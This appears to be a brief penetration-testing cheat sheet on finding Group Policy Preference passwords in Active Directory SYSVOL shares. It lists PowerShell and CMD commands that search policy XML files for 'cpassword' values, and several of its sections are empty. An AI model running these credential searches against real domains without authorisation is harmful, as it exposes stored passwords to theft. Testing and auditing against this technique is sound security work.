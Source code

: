 # [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

# [AD Hunting Passwords In SYSVOL](https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md)

### Extensions
```
*.xml , *.vbs , *.bat etc.
```

### TL;DR
```

```

### PowerShell
```
dir $env:logonserver\sysvol

dir \\$env:USERDNSDOMAIN\sysvol
findstr /S /I cpassword \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
```

### CMD
```
dir %logonserver%\sysvol

dir \\%USERDNSDOMAIN%\sysvol
findstr /S /I cpassword \\%USERDNSDOMAIN%\sysvol\%USERDNSDOMAIN%\policies\*.xml
```

### 
```

```

### Examples
```

```


### [%userdnsdomain% vs %logonserver%](https://www.reddit.com/r/sysadmin/comments/e01wot/userdnsdomain_and_logonserver_environment/?rdt=46812)
```
\\%logonserver%\sysvol\%userdnsdomain%
```

### 
```

```

### 
```

```

### 
```

```